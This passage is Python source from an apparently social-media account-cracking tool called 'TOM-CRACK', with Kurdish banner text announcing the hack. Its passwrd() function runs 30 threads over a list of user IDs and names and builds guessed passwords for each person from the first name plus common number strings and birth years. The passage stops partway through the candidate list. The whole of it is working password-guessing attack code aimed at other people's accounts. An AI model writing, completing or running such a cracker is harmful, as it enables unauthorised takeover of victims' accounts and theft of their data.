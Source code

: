#---------------------6666
def passwrd():
	os.system('clear')
	print(logo)
	print('\033[0;1m[ \033[31;1m+ \033[0;1m] 𝐀𝐥𝐥 𝐈𝐃: \033[32m'+str(len(id))) 
	print('\033[0;1m[ \033[31;1m+ \033[0;1m] 𝐇𝐀𝐂𝐊 𝐃𝐀𝐒𝐓𝐄 𝐏𝐄𝐊𝐑𝐃 \033[0;1m( \033[32m𝐓𝐎𝐌-𝐂𝐑𝐀𝐂𝐊 \033[0;1m)')
	print('\033[0;1m[ \033[31;1m+ \033[0;1m] 𝐁𝐎 𝐖𝐀𝐒𝐓𝐀𝐍𝐃𝐍𝐄 𝐓𝐎𝐎𝐋 \033[0;1m( \033[32m𝐂𝐓𝐑𝐋+𝐙 \033[0;1m)')
	print('\033[1;91m-------------------------------------------')
	with ThreadPoolExecutor(max_workers=30) as xoshnaw:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = []
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'2006')
					pwv.append(frs+'123123')
					pwv.append(frs+'1990')
					pwv.append(frs+'112233')
					pwv.append(frs+'22334455')
					pwv.append(frs+'223344')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'123456789')
					pwv.append(frs+'112233')
					pwv.append(frs+'2022')
					pwv.append(frs+'123123')
					pwv.append(frs+'123321')
					pwv.append(frs+'123456')
					pwv.append(frs+'12')
					pwv.append(frs+'1995')
					pwv.append(frs+'1996')
					pwv.append(frs+'1997')
					pwv.append(frs+'1998')
					pwv.append(frs+'1999')
					pwv.append(frs+'2000')
					pwv.append(frs+'2001')
					pwv.append(frs+'2002')
					pwv.append(frs+'2003')
					pwv.append(frs+'2004')
					pwv.append(frs+'2005')
				
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'2006')
					pwv.append(frs+'123123')
					pwv.append(frs+'1990')
					pwv.append(frs+'112233')
					pwv.append(frs+'22334455')
					pwv.append(frs+'223344')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'123456789')
					pwv.append(frs+'112233')
					pwv.append(frs+'2022')
					pwv.append(frs+'123123')